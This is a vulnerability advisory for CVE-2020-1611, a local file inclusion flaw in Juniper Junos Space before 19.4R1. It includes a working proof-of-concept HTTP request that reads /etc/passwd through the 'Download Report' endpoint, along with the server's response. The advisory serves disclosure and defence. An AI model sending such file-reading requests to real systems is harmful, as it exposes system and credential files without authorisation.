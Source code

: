 ```yaml
---
title: Juniper Junos Space Local File Inclusion Vulnerability
description: Juniper Junos Space prior to 19.4R1 Local File Inclusion Vulnerability
header: Juniper Junos Space prior to 19.4R1 Local File Inclusion Vulnerability
tags: ['advisories']
cwes: ['External Control of File Name or Path (CWE-73)']
affected_product: 'Juniper Networks Junos Space '
vulnerability_release_date: '2020-01-15'
---
```

A Local File Inclusion vulnerability (CVE-2020-1611) in Juniper Networks Junos Space allows an attacker to view all files on the target when the device receives malicious HTTP packets.

<!--more-->

## Juniper Junos Space Local File Inclusion
Juniper Junos Space prior to 19.4R1 is vulnerable to a local file inclusion vulnerability. An attacker with normal user rights could exploit this vulnerability.

The "Download Report" function is vulnerable.

Base Score: 6.5<br />
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N

Links:

 - https://nvd.nist.gov/vuln/detail/CVE-2020-1611
 - https://kb.juniper.net/InfoCenter/index?page=content&id=JSA10993

### Example

GET Parameters:

 - Set "Format" to "txt"
 - Set "FileUrl" to a local path

Request:<br />

```http
GET /mainui/download?X-CSRF=Y581SFvKU5INQPItBUoNj4NKf4IuqjSyywfRylPN3GLYaML3fM074gV2AIPBQjHEJsuJ9d7
&type=downloadGROpenReport&_browserId=1553107455361
&FileUrl=/etc/passwd&Format=txt&nodeHost=space-000311c3b873 HTTP/1.1
Host: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.10/mainui/nLegacy.jsp?bid=1553107455361&appName=CMP
DNT: 1
Connection: close
Cookie: ext-$sidebar_gettingStarted_checkbox=o%3Achecked%3Db%253A0;
DWRSESSIONID=sicWsVGWEjxdNYR7RJ60rCtbBrOmy0JHBm4h;
JSESSIONID="aoVrgUa7V1prIWVO5KEmCqF6QGuuYZ44RshRxEYHAJXqQDCNBjV6pLKiaaXQx2jWjGWw5TxnDxkKtsi
_.space-000311c3b873:server3";
JSESSIONIDSSO=Cm5qb87syONJ2lku1dadTx-SVyaoy0k9lt-bwSnTkfFrdONVfvmzrxB+g8xny4gjyKk_;
X-CSRF=Y581SFvKU5INQPItBUoNj4NKf4IuqjSyywfRylPN3GLYaML3fM074gV2AIPBQjHEJsuJ9d7; JxRunningBids=_1553107455361_
``` 

<br />Response:<br />

```http
HTTP/1.1 200 OK
Date: Wed, 24 Apr 2019 13:32:31 GMT
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Pragma: No-cache
Cache-Control: no-cache,no-store,must-revalidate,private
Expires: Thu, 01 Jan 1970 00:00:00 UTC
Content-Disposition: attachment; filename="passwd"
Content-Type: application/octet-stream
Content-Length: 1345
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:2:2:daemon:/sbin:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
mysql:x:499:499:MySQL server:/var/lib/mysql:/sbin/nologin
cassandra:x:498:498::/var/lib/cassandra:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
gluster:x:497:497:GlusterFS daemons:/var/run/gluster:/sbin/nologin
jboss:x:500:500::/usr/local/jboss:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
saslauth:x:496:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
unbound:x:495:495:Unbound DNS resolver:/etc/unbound:/sbin/nologin
redis:x:494:494:Redis Server:/var/lib/redis:/sbin/nologin
radvd:x:75:75:radvd user:/:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
qemu:x:107:107:qemu user:/:/sbin/nologin
slipstream:x:493:493::/usr/local//slipstream/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74::/var/empty/sshd:/sbin/nologin
postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash
tcpdump:x:72:72::/:/sbin/nologin
pcap:x:77:77:::/sbin/nologin
opennms:x:503:504::/home/opennms:/bin/bash
cassandr:x:504:505::/home/cassandr:/bin/bash
```
<br />
**Michael Wollner** ([@Ibonok](https://github.com/Ibonok))
